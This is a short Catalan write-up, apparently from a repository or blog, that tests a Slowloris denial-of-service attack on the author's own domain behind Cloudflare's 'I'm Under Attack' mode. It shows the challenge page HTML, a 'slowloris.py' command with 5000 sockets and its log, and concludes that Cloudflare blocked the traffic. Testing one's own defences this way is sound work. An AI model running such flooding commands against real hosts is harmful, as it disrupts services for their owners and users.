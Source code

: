 ### Slowloris - Mode Under-Attack

El mode I'm Under Attack de Cloudflare afegeix una pàgina intermitja en la qual s'analitza el tràfic per a veure si és tràfic vàlid.

Anem a provar l'atac slowloris amb aquest mode activat.

Podem veure que amb curl ja no ens deixa accedir per què fallam el JS Challenge.
```html
<noscript>
    <div id="challenge-error-title">
        <div class="h2">
            <span class="icon-wrapper">
                <div class="heading-icon warning-icon"></div>
            </span>
            <span id="challenge-error-text">
                Enable JavaScript and cookies to continue
            </span>
        </div>
    </div>
</noscript>
```

L'atac slow loris ha tardat molt menys en reduïr-nos les connexions obertes.

```bash
└─$ python3 slowloris.py plex.espardenya.me -s 5000
[04-08-2022 17:38:38] Attacking plex.espardenya.me with 5000 sockets.
[04-08-2022 17:38:38] Creating sockets...
[04-08-2022 17:39:39] Sending keep-alive headers... Socket count: 1020
[04-08-2022 17:40:53] Sending keep-alive headers... Socket count: 1020
[04-08-2022 17:41:43] Sending keep-alive headers... Socket count: 337
[04-08-2022 17:43:38] Sending keep-alive headers... Socket count: 895
[04-08-2022 17:44:19] Sending keep-alive headers... Socket count: 340
[04-08-2022 17:45:47] Stopping Slowloris
```
El servei segueix resolent de manera ràpida (bé, amb el JS Challenge de Cloudflare abans de carregar.)

## Conclusió

Pràcticament, el tràfic maliciós no ha arribat al Firewall on-premise, així que el CDN de Cloudflare ha funcionat de manera correcta.